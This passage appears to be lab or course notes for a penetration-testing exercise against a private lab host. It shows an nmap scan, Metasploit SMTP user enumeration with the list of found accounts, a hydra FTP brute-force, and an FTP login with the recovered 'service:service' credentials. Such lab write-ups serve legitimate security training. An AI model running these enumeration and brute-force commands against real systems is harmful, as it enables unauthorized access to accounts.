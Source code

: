 ```bash
#  according to the most recent information available. This backdoor 
#  was removed on July 3rd 2011.
```

- 📌 Exploits might not work because the vulnerability may have been patched!
- Enumerate user accounts via **`SMTP` brute-force**

```bash
nmap -sV -p 25 10.2.20.205
	25/tcp open  smtp  Postfix smtpd
```

```bash
msfconsole
```

```bash
use auxiliary/scanner/smtp/smtp_enum
setg RHOSTS 10.2.20.205
set UNIXONLY true
run
```

```bash
# Valid user and service accounts
[+] 10.2.20.205:25 - 10.2.20.205:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
```

```bash
hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.2.20.205 ftp
```

```bash
[21][ftp] host: 10.2.20.205   login: service   password: service
```

![](4-exploitationassets/image-20230424144709605.png)

> 📌 FTP credentials found:
>
> - `service`:`service`

```bash
ftp 10.2.20.205
# Use service:service
```
